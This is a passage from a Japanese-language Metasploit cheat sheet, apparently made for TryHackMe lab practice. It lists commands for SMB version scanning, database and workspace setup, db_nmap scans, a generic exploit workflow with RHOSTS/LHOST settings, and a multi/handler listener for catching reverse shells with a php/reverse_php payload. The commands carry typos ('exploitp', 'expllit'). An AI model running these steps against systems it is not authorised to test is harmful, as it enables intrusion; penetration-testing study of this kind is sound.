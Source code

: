 ```bash
msf5> use scanner/smb/smb_version
```

##### 使用例（Metasploit データベースを使用する方法）

```bash
systemctl start postgresql   # postgresqlを起動しておく mysqlでもよい
msfdb init                   # Metasploitデータベース初期化
msfconsole
msf5> db_status              # データベースの状態確認
msf5> workspace              # ワークスペースの確認
msf5> workspace -a tryhackme #ワークスペース(tryhackme)の追加
msf5> workspace -h           # 利用できるオプションの確認
msf5> db_nmap -sV -p- x.x.x.x  # nmapスキャンを実行し結果をデータベースに保存する
msf5> hosts [-h]
msf5> services [-h]
```

##### 使用例（エクスプロイトの実行手順）

```bash
msf5> search keyword
msf5> use [0-9]
msf5> show options
msf5> show payloads
msf5> set payload x              # デフォルト以外のpayloadを使用するとき
msf5> set RHOSTS x.x.x.x
msf5> set RPORT xxxx
msf5> set LHOST x.x.x.x   # リバースペイロードを使用するとき
msf5> set LPORT xxxx
msf5> exploitp    # exploit成功後、バックグラウンド実行にするにはCtrl+Z、中止するにはCtrl+C
msf5> sessions [-h]
msf5> sessions -i x
```

##### 使用例（マルチハンドラーで待受けする手順）

    Metasploitの multi/handlerモジュールを使用しリバースシェルをキャッチする
    Meterpreterシェルを使用する場合に不可欠で、ステージングされたペイロードを使用する場合に使う

```bash
msf5> use multi/handler
msf5> set payload php/reverse_php
msf5> set lhost x.x.x.x
msf5> set lport xxxx
msf5> expllit -j   # -jオプションで、Metasploit はモジュールを起動し、バックグラウンドでジョブとして実行
```

#### msfvenom

payload の作成に使用するツール

##### 基本

##### オプション
